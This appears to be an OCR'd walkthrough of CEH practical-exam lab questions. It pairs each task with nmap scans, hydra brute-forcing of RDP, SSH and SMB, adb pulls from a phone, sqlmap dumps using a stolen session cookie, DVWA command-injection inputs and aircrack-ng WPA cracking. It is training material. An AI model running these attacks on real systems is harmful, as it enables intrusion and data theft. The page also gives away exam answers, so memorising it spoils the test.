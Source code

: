 
 1.  sudo nmap -Pn -n -p- -A --min-rate 5000 <DC IP>
2.  While investigating an attack, you found that a windows web development environment  was exploited to gain access to the system. Perform extensive scanning and service enumeration of the target and identify the number of mercury services running in the server. (Format: N).  Ans: 7. usually i found that all mercury services on ip which is 192.168.44.32. sudo nmap -Pn -n -sV -p- --min-rate 5000 192.168.44.32 3. Identify a machine with RDP service enabled in the 10.10.55.0/24 subnet. Crack the RDP credentials for user jones and obtain a file hide.cfe containing an encrypted images file. Decrypt the file and enter the CRC32 value of the images file as the answer. Note : Use jones’s password to extract the images file.. (Format: NaaNNNaa). sudo nmap -Pn -n -p 3389 --open --min-rate 5000 10.10.55.0/24 -> find rdp enabled windows machine. hydra -L jones -P /home/attack/Desktop/passwords.txt rdp:// 10.10.55.11 -t 30 -> bruteforcing creds. xfreerdp /v:10.10.55.11 /u: joneshide.cfe -> it is encrypted using CryptForge, to decrypt > select file > right click > decrypt. In Windows 11 machine navigate to E:\CEH-Tools\CEHv12 Module 20 Cryptography\MD5 and MD6 Hash Calculators\HashMyFiles and double click HashMyFiles.exe. Open hide with hashmyfiles utility > scroll righ side > there you can see crc32 value. 4. An insider attack involving one of the employees’s mobile device in the 10.10.55.0/24  subnet has been identified. You are assigned to covertly access the user’s device and obtain hidden data in the image file. Analyse the image file and extract the sensitive data hidden in the file and extract the sensitive data hidden in the files and enter the secret code as the answer. (Format : A*AaAa*AN). sudo nmap -Pn -n -p 5555 --open 10.10.55.0/24 --min-rate 5000 -> identify mobile in subnet. adb connect <Mobile ip>:5555 adb shell >     in shell : search for image file generally it will be in /sdcard/Download > exit adb pull /sdcard/Download /home/attacker(our machine directory to save files). cd Download sudo python3 -m http.server 80 -> to transfer image file to windows in windows(Workstation 2) : To Download image file from parrot Certutil.exe -Urlcache -f http://172.20.10.10/Ceh.jpg C: \path\to\save\file\Ceh.jpg Navigate to E:\CEHv12 Module 06 System Hacking\Steganography Tools\Image Steganography Tools\OpenStego, open it > choose Extract data > select image file Ceh.jpg > select folder to save extracted file > Click on extract data. 5. Perform a vulnerability scan for the host with IP address 192.168.44.32. what is the CVE number of the vulnerability with least severity score? (Format:AAA-NNNN-NNNN). 6. Exploit a remote login and command-line execution application on a Linux target in the 10.10.55.0/24 subnet to access a sensitive file. Netnormal.txt. Enter the content in the file as the answer. (Format : ANaN*ANaN). sudo nmap -Pn -n -p22,23,3389 --open 10.10.55.0/24 --minrate 5000 -> identify Ip sudo nmap -Pn -n -A --min-rate 5000 <Ip> -> to confirm it's linux. hydra -L /home/attacker/Desktop/usernames.txt -P /home/ attacker/Desktop/passwords.txt -t 30 -f ssh linuxadmin@<ip address> find / -name Netnormal.txt -type f 2>/dev/null > cat Netnormal.txt. 7. An Ex-employee of an organization has stolen a vital account credential and stored in a double-encrypted file named restricted.txt before leaving the organization. The credentials are a nine-character alphanumeric string. Enter the credentials as the answer. The restricted.txt file has been identified in the employee email attachment and stored in the “EH-Workstation 2” machine in the Documents. You have learned that “password” is the extract credentials from the restricted.txt. (Format : aaaaa*NNN). Copy the restricted file which is in Documents folder Navigate to E:\CEH-Tools\CEHv12 Module 06 System Hacking\Steganography Tools\Whitespace Steganography Tools > paste restricted.txt > .\Snow.exe -C -p password . \restricted.txt > copy the string > open  cyber chief or crack station online > paste > click on decrypt. 8. Exploit weak credentials used for SMB service on a windows machine in the 10.10.55.0/24 subnet. Obtain the file sniffer.txt hosted on the smb root, and enter its content as the answer. (Format: a*aaNaNNa). sudo nmap -Pn -n -p 445 --open 10.10.55.0/24 --min-rate 5000 -> find device. hydra -L ./usernames.txt -P ./passwords.txt -t 30 smb:// 10.10.55.11 smbmap -H 10.10.55.11 (-u james -p qw3rty (optional)) -> find shares smbclient //10.10.55.11//Users/ get sniffer.txt > cat sniffer.txt 9. You are assigned to analyse and perform static malware analysis on a malicious executable file hell.exe located in Downloads folder of EHWorkstation-2. Determine the Linker Version number of the executable file as answer. (Format : N*NN). eh-workstation-2 (windows) navigate to E:\CEH-Tools\CEHv12 Module 07 Malware Threats\Malware Analysis Tools\Static Malware Analysis Tools\Packaging and Obfuscation Tools\PEid The PEiD main window appears. Click the Browse button to upload a malicious file for analysis. The Choose the file to open window appears; navigate to Downloads folder > choose hell.exe > click on Open. 10. A disgruntled ex-employee Martin has hidden some confidential files in a folder “Scan” in a windows machine in the 10.10.55.0/24 subnet. You cannot physically access the target machine, but you know that the organization has installed a RAT in the machine for remote administrator purposes. Your task is to check how many files present in the scan folder and enter the number of files sniffed by the employee as answer. (Format: N). sudo nmap -Pn -n -p 6703 10.10.55.0/24 --min-rate 5000 -> find device note the <Ip Address> Navigate to E:\CEH-Tools\CEHv12 Module 07 Malware Threats\Trojans Types\Remote Access Trojans (RAT)\Theef and double-click Client210.exe to access the victim machine remotely. Enter the IP address of the target machine in the IP field, and leave the Port and FTP fields set to default; click Connect. Click on File explorer icon > File manager > Expand Hard Drive C: > Users folder > Martin Folder > and find Scan folder > count file present in Scan folder > Enter it as answer. 11. During an assignment, an incident response has detected a suspicious executable file “Strange_File-1”. Your task as a malware analysis is to determine the size of the PT_LOAD(0) segment using SHA224 hash method. The file is in the C:\Users\Admin\Documents directory in the “EH-workstation-2” machine. (Format: NNNaNNaa). In the Windows 11(Workstation-2), navigate to E:\CEHTools\CEHv12 Module 07 Malware Threats\Malware Analysis Tools\Static Malware Analysis Tools\Packaging and Obfuscation Tools\DIE and double-click die.exe. The Open file… window appears; navigate to C: \Users\Admin\Documents choose "Strange_File-1". Right Top Corner there you can "Hash" button" > Click on it > At top you can see Method (select sha224) > in result you can see Size of PT_LOAD(0). 12. You are investigating a massive DDoS attack launched against a target at 172.22.10.10. Your objective is to identify the packets responsible for the attack and determine the least IPv4 packet count sent to the victim machine. The network capture file “Evil-Traffic.pcapng” is saved in the Document folder of the “EH-Workstation-2” windows 11 machine (Format:NNNNN). Open wire shark in windows machine  >  Choose "EvilTraffic.pcapng"  > From upper options "Statistics" > "IPv4 Statistics" > Source and destination Addresses > Type ip.dst == 172.22.10.10 (In Display Filter). 13. Perform as SQL injection attack on your target web application cinema.cehorg.com and extract the password of user Daniel. You have already registered on the website with credentials Karen/computer. (Format:aaaaaaaaa). Login into cinema.cehorg.com with credentials. Click on View Profile > Copy the Url (save it in notepad) > Right click > Inspect element > console > document.cookie > Copy the Cookie value (save it in notepad). sqlmap -u <url> --cookie <cookie value> --dbssqlmap -u <url> --cookie <cookie value> -D cinema_database --tables sqlmap -u <url> --cookie <cookie value> -D cinema_database -T Users_Login --dump 14. Explore the web application at www.cehorg.com and enter the flag’s value on the page with page_id=95. (Format : A**NNAA). visit page www.cehorg.com in website you can ethical hacking hyper link -> link on it you can observe the url parameter was changed > scroll down to see flag value. 15. Perform vulnerability research and exploit the web application training.cehorg.com, available at 10.10.55.50. Locate the Flag.txt file and enter its content as the answer. (Format: A*a*aNNN). dirb http://training.cehorg.com -X .txt http://training.cehorg.com/Flag.txt 16. Perform SQL injection attack on a web application, cybersec.cehorg.com, available at 192.168.44.40. find the value in the flag column in one of the db tables and enter it as the answer. (Format: *aNNaNaAA). visit cybersec.cehorg.com website > scroll down to bottom > there you can see blog hyperlink > click on it > you can observe that the url was chaged with id parameter > copy the url. - Enumerate all databases until find the table with flag column. sqlmap -u <url with id parameter> --dbs sqlmap -u <url with id parameter> -D databasename --tables sqlmap -u <url with id parameter> -D databasename -T flag -dump 17. A set of files has been uploaded through DVWA (http:// 192.168.44.32:8080/DVWA). The files are located in the “C: \Wamp64\www\DVWA\ECweb\Certified\” directory. Access the files and decode the base64 ciphers reveal the original message among them. Enter the decrypted message as the answer. You can log into the DVWA using the credentials admin/password. (Format: A*aaa*AA).login to the dvwa application > set security level low > choose command execution type below commands: | dir "C:\Wamp64\www\DVWA\ECweb\Certified" > there are 3 Cipher.txt files. | type "C:\Wamp64\www\DVWA\ECweb\Certified\Cipher1.txt" | type "C:\Wamp64\www\DVWA\ECweb\Certified\Cipher2.txt" | type "C:\Wamp64\www\DVWA\ECweb\Certified\Cipher3.txt" Use online cyber-chief application to crack : https:// gchq.github.io/CyberChef/ 18. Analyse the traffic capture from an IoT network located in the Documents folder of the “EH-Workstation -1” (ParrotSecurity) machine, identify the packet with IoT Publish Message, and enter the “Topic Length” as the answer. (Format: N). Open IoT capture file in wireshark mqtt and mqtt.msgtype == 3 19. A disgruntled employee of your target organisation has stolen the company’s trade secrets and encrypted them using Veracrypt. The Veracrypt volume file “Its_File” is stored on the C: drive of the required to access the veracrypt volumes has been hashed and saved in a “txt” file in the Documents folder of “EH-Workstation -1” (parrot security) company, you need to decrypt the hash in the Hash2Crack.txt” file, access the veracrypt volume, and find the secret code in the file named EC_data.txt. (Format: NA*aNaa*A). move to parrot machine > cat Hash2crack.txt > it may be md5 > use crackstation online to crack. now, shift back to windows machine > open veracrypt > choose any alphabet > click on browse file and select "Its_File" > click on mount > prompt for password > enter password > move the new drive > there you can see file. 20. Your organisation suspects the presence of a rogue AP in the vicinity. You are tasked with cracking the wireless encryption, connecting to the network, and setting up a honeypot. The airdump-ng tool has been used, and the WiFi traffic capture named “Wifi_Pcap.cap” is located in 20. the Documents folder in “EH-Workstation-1” (parrot machine). Crack the wireless encryption and enter the total number of characters present in the wi-fi password. (Format:N). Open wifi_pcap.cap in wireshark > apply display fileter : wlan.bssid -> to find bssid of access point. aircrack-ng -a2 -b <bssid> ./wifi_pcap.cap -w ./ passwords.txt 